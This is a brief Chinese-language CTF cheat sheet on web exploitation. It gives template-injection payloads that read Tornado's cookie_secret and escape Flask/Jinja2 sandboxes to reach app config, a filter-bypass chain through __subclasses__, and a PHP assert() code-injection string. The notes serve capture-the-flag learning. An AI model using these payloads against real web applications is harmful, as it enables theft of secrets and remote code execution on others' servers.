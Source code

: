 https://www.freebuf.com/column/187845.html

这里有寻找类的过程

### tornado获取cookie_secret

`msg={{handler.settings}}`

可以得到

```
{'autoreload': True, 'compiled_template_cache': False, 'cookie_secret': '2805f671-5e52-45ad-ad7c-53b057a79590'}
```



### 沙箱逃逸

```
{{url_for.__globals__['current_app'].config.FLAG}}



{{get_flashed_messages.__globals__['current_app'].config.FLAG}}
```

此处`{{url_for.__globals__}}`url_for是内置函数，__globals是全局['current_app']代表当前app,然后取config中的flag



## 过滤关键字

```
{{''[request.args.a][request.args.b][2][request.args.c]()}}?a=__class__&b=__mro__&c=__subclasses__
```



## 奇怪的目录

index.phps

## urldecode

url二次编码

## assert()

**assert()函数会将读入的代码当做PHP代码来执行**

```
?page=home').phpinfo();//
```

注意闭合语句

## 执行无回显
